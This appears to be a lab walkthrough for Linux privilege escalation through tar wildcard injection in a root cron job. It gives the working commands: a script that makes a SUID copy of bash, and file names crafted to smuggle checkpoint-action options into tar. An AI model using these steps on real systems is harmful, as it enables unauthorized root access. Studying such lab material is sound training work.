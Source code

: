 **Detection**

Linux VM

1. In command prompt type: 
   
```
cat /etc/crontab
```

![[Pasted image 20240602233108.png]]


2. From the output, notice the script “/usr/local/bin/compress.sh”

3. In command prompt type: 
   
```
cat /usr/local/bin/compress.sh
```

4. From the output, notice the wildcard (\*) used by ‘tar’.

**Exploitation**

Linux VM

1. In command prompt type:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
```

2. 
   
```
touch /home/user/--checkpoint=1
```

3. 
   
```
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

4. Wait 1 minute for the Bash script to execute.

5. In command prompt type: 
   
```
/tmp/bash -p
```

6. In command prompt type: 
   
```
id
```

![[Pasted image 20240602233340.png]]


Answer the questions below

Click 'Completed' once you have successfully elevated the machine
